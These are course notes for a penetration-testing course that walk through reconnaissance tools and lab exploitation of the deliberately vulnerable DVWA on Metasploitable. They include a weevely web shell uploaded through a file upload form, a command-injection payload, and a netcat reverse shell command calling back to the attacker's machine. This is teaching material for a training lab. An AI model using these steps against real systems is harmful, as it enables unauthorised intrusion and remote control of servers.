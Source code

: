 # Metasploit Course Notes

Welcome to the [Metasploit](https://www.metasploit.com/) course notes for the Udemy course [Learn Website Hacking / Penetration Testing From Scratch](https://www.udemy.com/learn-website-hacking-penetration-testing-from-scratch/)

## Starting Kali Linux

Fire up the Kali Linux Virtual Box image and login using the username:password - `root:toor`

## Starting Metasploitable

Fire up the Metasplotable Virtual Box image and login using the username:password - `msfadmin:msfadmin`. Run `ifconfig` and make a note of the IP address. Then in the Kali Linux instance, open Firefox and paste in the IP address to the address bar. You can now play with Metasplotable web applications via the browser in Kali Linux!

## Open DVWA

Clik the [DVWA](http://www.dvwa.co.uk/) link from the home page of Metasplotable. Login using the username:password - `Admin:password`

## Information gathering

First things first. You must know your target! Here are some tools to gather information you need:

* [WhoIs Tools](http://whois.domaintools.com/) - Find information about the owner of the target site
* [Netcraft Site Report](https://toolbar.netcraft.com/) - Find information about the technology used
* [BuiltWith](http://builtwith.com/) - Find information about the technology used
* [Robtex DNS Lookup](http://robtex.com) - Comprehensive DNS information about the target site
* [Subdomain Discovery](https://github.com/guelfoweb/knock) - Subdomain scanner (requires git clone)

Basic usage of Knock outlined below:

```
# Do this in Kali Linux :)
git clone https://github.com/guelfoweb/knock.git
cd knock
sudo python setup.py install
knockpy -h
knockpy rotati.com
```

* [Files & Directories using DIRB](https://tools.kali.org/web-applications/dirb) - DIRB  IS  a  Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary basesd attack against a web server and analizing the response.

Use `dirb` (within Kali Linux) like so: `dirb http://example.com`

This will scan example.com for a large number of potentially accessible files. The dirb application has a list of common words that it may check for `/usr/share/dirb/wordlists/common.txt` For example it might try the following:

```
+ http://example.com/.ssh                                              
+ http://example.com/.subversion (CODE:200|SIZE:32854)                                         
+ http://example.com/.svn 
+ http://example.com/.swf 
+ http://example.com/.web 
+ http://example.com/404 
+ http://example.com/500 
+ http://example.com/about
+ http://example.com/admin
+ http://example.com/admin.cgi 
+ http://example.com/admin.php 
+ http://example.com/admin.pl
+ http://example.com/ajax 
+ http://example.com/AT-admin.cgi
+ http://example.com/blog

...etc, etc
```

* [Maltego](https://en.wikipedia.org/wiki/Maltego) - Maltego is software used for gathering and managing open-source intelligence and forensics.

## Explotations

This section is about discovering and using exploits.

## Discover exploits

Once you have the information about the target its now time to check what exploits are possible. Here are some online tools to help with that:

* [Exploit DB](https://www.exploit-db.com/) - lists publicly known exploits for many different software products
* [IP Search](https://bing.com) - Discover if other sites are running on the same server via an [IP address search](https://www.bing.com/search?q=ip%3A13.250.177.223)

## File upload exploits

Simple exploit that allows uploading of server side script files (like PHP) via a vulnerable file upload form presented on the website.

First create a 'shell' script using the scripting language of the target website. Since we are targeting DVWA, the script can be PHP.

Make sure that the security level in the DVWA website is set to 'low'.

Use `weevely` to generate the script as follows: `weevely generate 123456 /root/shell.php`. Now run `ls -la /root` and you will see the script file. Now go to the DVWA Upload page and upload the php script you just generated.

Now in a terminal type use weevely to control the DVWA server like so: `weevely http://10.0.2.4/dvwa/hackable/uploads/shell.jpg 123456`

## Code execution exploits

Go to the Command Execution example in the DVWA website. Type in an ip address to ping. Then append another commend to it like this: `10.0.2.4;pwd`. You should see the output of the ping + the pwd command meaning that there is a code execution vulnerability here.

With this we can get something known as a 'reverse connection' from the target computer. Here is how:

So in Kali Linux (i.e. the 'attackers computer') start a netcat session like so: `nc -vv -l -p 8080`. This is basically a session that is listening (because of the `-l` switch passed to the `nc` command) for incomming connections on port 8080.

In the DVWA website, go to the Command Execution example and enter the following which will establish a connect with the attacker: `10.0.2.4;nc -e /bin/sh 10.0.2.15 8080`

Just with that, the attacker now essentially has a netcat terminal session with the target machine.

